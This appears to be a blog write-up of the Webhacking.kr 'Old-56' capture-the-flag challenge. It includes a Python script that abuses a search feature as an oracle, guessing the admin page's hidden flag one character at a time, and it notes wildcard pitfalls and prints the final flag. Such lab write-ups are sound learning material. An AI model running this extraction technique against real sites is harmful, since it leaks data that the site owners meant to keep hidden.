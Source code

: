 ```yaml
---
layout: post
title: "[Webhacking.kr] Old-56 writeup"
categories: hacking writeup web
---
```


# Introduction

Link: [https://webhacking.kr/challenge/web-33/](https://webhacking.kr/challenge/web-33/)

The challenge is quite easy to understand. You can not enter the admin page, you can enter the
guest page. You also have a search function to search for content in all pages.

![Main](/assets/images/old-56/main.png)

Let's try the search function by using content inside of `guest`

![Search](/assets/images/old-56/search.png)

# Let's find a way to get in

The first thing to try is SQL Injection. Didn't work.

The second thing to try is to find some kind of known vulnerabilty in `strpos` function.
I had a feeling that it might be using `strpos` for the search function. Nothing relevant found.

But one thing I forgot, the content inside admin page is very likely a flag. A search
with `flag{` as the query returned the admin page. An important clue!

![Flag Search](/assets/images/old-56/flag_search.png)

# Bruteforce the flag

It is obvious that the flag can be bruteforced in a matter of minutes. Let's write a short script

```python
import requests, string

cookies = {
    'PHPSESSID': '8sgmg9vml43qsn1gktg85jipj5',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    # 'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'https://webhacking.kr',
    'Connection': 'keep-alive',
    'Referer': 'https://webhacking.kr/challenge/web-33/index.php',
    # 'Cookie': 'PHPSESSID=8sgmg9vml43qsn1gktg85jipj5;
    'Upgrade-Insecure-Requests': '1',
    'Sec-Fetch-Dest': 'document',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-User': '?1',
}

current = 'flag{'

def correct(c):
    data = {
    'search': current + c
    }

    response = requests.post('https://webhacking.kr/challenge/web-33/index.php',
                         cookies=cookies, headers=headers, data=data)

    return "admin" in response.text

def brute():
    global current
    while current[-1] != '}':
        last_correct = False
        print("trying ...")
        for c in list(string.ascii_lowercase + string.punctuation):
            print(f"{current + c}")
            if correct(c):
                current = current + c
                print(f"current: {current}")
                last_correct = True
                break

        if last_correct == False:
            print("no matches! stopping")
            break

brute()
```

After a couple of tries, I found that `%` was accepted in many places. So the result was `flag{himiko%a%cute%dont%hink%o%%`, which was close but not what I wanted.

So I decided to remove the `%` in the code, and tried again.

```python
#...
    for c in list(string.ascii_lowercase + string.punctuation.replace('%', '')):
#...
```

![Result1](/assets/images/old-56/result1.png)

Gotcha, you man of culture! But wait, that one was not correct either. Later, I found that the underscore character `_` was just like `%`, how annoying.

And after a bit of tuning, I found the correct flag!

`flag{himiko_toga_is_cute_dont_you_think_so?}`
